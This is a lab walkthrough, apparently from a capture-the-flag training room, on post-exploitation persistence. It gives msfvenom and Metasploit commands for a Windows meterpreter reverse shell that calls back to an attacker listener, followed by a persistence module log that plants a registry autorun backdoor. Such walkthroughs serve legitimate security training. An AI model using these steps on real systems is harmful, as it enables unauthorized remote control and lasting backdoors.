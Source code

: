 There are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.

There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for this room.

This will require a little more manual setup than the other tasks so it is recommended to have previous knowledge of msfvenom and metasploit.

### Generating a Payload w/ msfvenom﻿

1.) `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe` this will generate a basic windows meterpreter reverse tcp shell.

![](2025-05-31-post-exploitation-basics-34.png)

2.) Transfer the payload from your attacker machine to the target machine. 3.) `use exploit/multi/handler` - this will create a listener on the port that you set it on. 4.) Configure our payload to be a windows meterpreter shell: `set payload windows/meterpreter/reverse_tcp` 5.) After setting your THM IP address as your “LHOST”, start the listener with `run` 6.)  Executing the binary on the windows machine will give you a meterpreter shell back on your host - let’s return to that 7.) Verify that we’ve got a meterpreter shell, where we will then `background` it to run the persistence module.

### Run the Persistence Module -

1.) `use exploit/windows/local/persistence` this module will send a payload every 10 seconds in default however you can set this time to anything you want 2.) `set session 1` set the session to the session that we backgrounded in meterpreter (you can use the `sessions` command in metasploit to list the active sessions)

```
[*] Sending stage (175174 bytes) to 10.10.245.132 
[*] Meterpreter session 1 opened (10.11.35.147:5555 -> 10.10.245.132:49869) at 2021-06-28 18:45:10 +0200

meterpreter > background
[*] Backgrounding session 11...
msf6 exploit(multi/handler) > use exploit/windows/local/persistence 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp 
msf6 exploit(windows/local/persistence) > set session 1 
session => 1 
msf6 exploit(windows/local/persistence) > run

[*] Running persistent module against DOMAIN-CONTROLL via session ID: 1 
[+] Persistent VBS script written on DOMAIN-CONTROLL to C:\Users\Administrator\AppData\Local\Temp\Yukvpk.vbs 
[*] Installing as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\sQMgKDu 
[+] Installed autorun on DOMAIN-CONTROLL as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\sQMgKDu 
[*] Clean up Meterpreter RC file: /root/.msf4/logs/persistence/DOMAIN-CONTROLL_20210628.4733/DOMAIN-CONTROLL_20210628.4733.rc
```
